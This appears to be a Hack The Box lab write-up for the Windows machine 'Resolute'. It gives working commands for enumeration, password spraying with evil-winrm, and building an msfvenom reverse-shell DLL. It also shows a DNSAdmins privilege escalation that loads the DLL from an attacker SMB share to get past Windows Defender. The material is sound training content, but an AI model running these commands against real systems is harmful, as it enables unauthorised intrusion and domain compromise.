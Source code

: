 ```yaml
---
layout: default
---
```

## Resolute
###### Retired June 2020
![](https://www.hackthebox.eu/storage/avatars/4c86a642ea237dfde036963e6d182b40.png)

This Windows machine takes advantage of lazy adminstrators, poor PowerShell hygiene, and Windows Defender bypasses.

I started this machine with a quick nmap scan to find open ports
```bash
nmap -p 1-65535 -n -v resolute.htb -T5
```

![](https://yaboygmoney.github.io/htb/images/resolute/nmap1.png)

I followed up with a more in depth nmap scan on a few of the ports that responded. I had a hunch what I needed was one of the first responders.

```bash
nmap -p 53,139,445,636,5985,88 -n resolute.htb -T4 -A -oN nmap.results
```

![](https://yaboygmoney.github.io/htb/images/resolute/nmap2.png)

My next move was to run enum4linux against resolute.htb.

```bash
enum4linux -a resolute.htb
```

This provided the workgroup name, a list of users, and a password. For the account 'marko' we can see a description that says 'Account created. Password set to Welcome123!'. 

![](https://yaboygmoney.github.io/htb/images/resolute/enum.png)

We learned WinRM was enabled from our nmap scan, so I try to use [evil-winrm](https://github.com/Hackplayers/evil-winrm) to login with the credentials found.

```bash
evil-winrm -u marko -p 'Welcome123!' -i resolute.htb
```

..except, no ya don't.

![](https://yaboygmoney.github.io/htb/images/resolute/badpass.png)

Looks like the password won't work for ```marko```. It does appear to be a standard "Welcome to the organization!" password that is set by default. To check it against the user list provided by enum4linux, I ran

```bash
for user in $(cat u.txt); do evil-winrm -u $user -p 'Welcome123!' -i resolute.htb; done
```

It fails a few times, and then I'm able to authentiate as the user 'melanie'.

![](https://yaboygmoney.github.io/htb/images/resolute/loop.png)

A quick get-content command against C:\users\melanie\desktop\user.txt gets the user flag.

![](https://yaboygmoney.github.io/htb/images/resolute/user.png)

After looking around, it doesn't appear as though the user melanie has too many permissions on this system to escalate. Other users with folders on the system are Administrator and Ryan. 

![](https://yaboygmoney.github.io/htb/images/resolute/users.png)

I decide to see what I can see about Ryan.

```powershell
net user ryan
```

![](https://yaboygmoney.github.io/htb/images/resolute/netryan.png)

Ryan is a member of another group: contractors. We don't have much else to go on, so let's see what we can find.

I start at C:\ and see what's what.

```powershell
Get-ChildItem -force
```
There are a few bonus folders in here, namely PSTranscripts. 

![](https://yaboygmoney.github.io/htb/images/resolute/digging.png)

Enumerating that shows an result.

![](https://yaboygmoney.github.io/htb/images/resolute/pstranscript.png)

The file is 3732 bytes of text, so I decide to pull it down to my Kali machine by using ```download Powershell_transcript.RESOLUTE.OJuoBGhU.20191203063201.txt``` in Evil-WinRM.

Looking through the file, credentials are easily spotted in a command ryan was using to mount a file share.

![](https://yaboygmoney.github.io/htb/images/resolute/ryancreds.png)

Exit the session as melanie and start a new one as ryan:

```bash
evil-winrm -u ryan -p 'Serv3r4Admin4cc123!' -i resolute.htb
```

![](https://yaboygmoney.github.io/htb/images/resolute/inAsRyan.png)

I immediately check out what sort of cool things Ryan can accomplish with ```whoami /all```.

![](https://yaboygmoney.github.io/htb/images/resolute/ryangroups.png)

Interestingly, Ryan is a member of the DNSAdmins group. Equally interesting, [this blog](https://medium.com/@esnesenon/feature-not-bug-dnsadmin-to-dc-compromise-in-one-line-a0f779b8dc83) covering exploiting DNSAdmin's abilities to load DLLs with the dnscmd.exe binary.

After learning this, I craft a quick DLL payload with msfvenom.

```bash
msfvenom -p windows/x64/shell_reverse_tcp -f dll LHOST=10.10.14.28 LPORT=1234 > ybgm.dll
```

I start Metasploits exploit/multi/handler to catch the callback, and upload my DLL to the target. Except..

![](https://yaboygmoney.github.io/htb/images/resolute/busted.png)

Windows Defender is busting this payload as soon as it hits the disk. Shay Ber's previously mentioned article does mention that the payload can be called from a UNC path from a remote server. This is important, because this instance of Windows Defender only seems to care if the file is touching the disk. Loading the DLL from a remote server is safe, so to abuse this feature, I need to do a few things:

1. Serve a share folder from Kali, hosting the DLL
2. Mount the share folder so that Ryan can use it
3. Run the dnscmd to config the loading of the bad DLL
4. Restart the DNS service so the DLL is loaded

To accomplish Step 1, I used [Impacket's smbserver.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/smbserver.py).

```bash
./smbserver.py YBGM /root/htb/resolute/
```

This command creates an SMB server and share named YBGM, hosting my /root/htb/resolute directory.

![](https://yaboygmoney.github.io/htb/images/resolute/smbsetup.png)

Next, I need to get Ryan using this share. By default, the share doesn't require any authentication, so it's as easy as 

```powershell
net use \\10.10.14.28\ybgm
net use
```

You can see from both the Windows machine and the Kali machine that the connection established.

![](https://yaboygmoney.github.io/htb/images/resolute/mounted.png)

![](https://yaboygmoney.github.io/htb/images/resolute/mounted2.png)

Now I need to run the dnscmd.exe binary to load this DLL and then restart DNS.

```powershell
dnscmd.exe Resolute /config /ServerLevelPlugindll \\10.10.14.28\ybgm\ybgm.dll
sc.exe stop dns
sc.exe start dns
```

![](https://yaboygmoney.github.io/htb/images/resolute/dnscmd.png)

Once DNS comes back up my dll is loaded and a connection is established with my listener.

![](https://yaboygmoney.github.io/htb/images/resolute/metasploit.png)

With the NT AUTHORITY/SYSTEM shell, I can get the contents of C:\users\administrator\desktop\root.txt 

![](https://yaboygmoney.github.io/htb/images/resolute/root.png)

